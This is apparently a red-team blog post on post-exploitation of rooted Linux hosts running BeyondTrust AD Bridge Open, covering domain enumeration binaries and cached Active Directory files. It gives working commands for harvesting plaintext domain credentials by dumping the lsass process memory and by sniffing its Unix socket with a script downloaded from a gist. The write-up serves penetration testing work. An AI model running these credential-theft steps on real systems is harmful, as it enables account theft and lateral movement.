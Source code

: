 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation.

Active Directory Bridging (AD Bridging) is a mechanism that allows users to log on to non-Windows systems using Active Directory (AD) login credentials. It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).

This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using AD Bridge Open. Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551). The project was discontinued and moved to a enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment - especially if the Linux box was streamlined and does not have installed any LDAP or SMB clients typicaly present on Linux distributions.

The software keeps a cache file of domain users and associated Active Directory information on this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`. A lot of information about Active Directory environment, without making any request to the Domain Controllers, can be extracted from this file.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they all reside on the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` is a SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm)




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

In order to get some plain text credentials the LSASS process can be targeted Mimikatz style, minus the memory structures parsing complexities of LSASS on Windows.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


SSH is integrated with Active Directory using AD Bridge Open, so I can dump the process memory, run strings and grep for SSH authentications or passwords.


GDB can be attached using one of the AD Bridge Open binaries `/opt/pbis/bin/lwsm gdb lsass`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run ``gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"``

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it is a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

`yum -y install wireshark socat tmux`
`tmux`
`wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh`
`chmod 755 unixsock-sniff.sh`
`./unixsock-sniff.sh -u /var/lib/pbis/.lsassd`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is very often accessed by users or there is some automated scanning software that performs authenticated scans against the box (eg: Nessus), I should get the SSH logins and capture the plain text credentials.

`tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd`


Pretty sure that there's a lot that I didn't covered or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

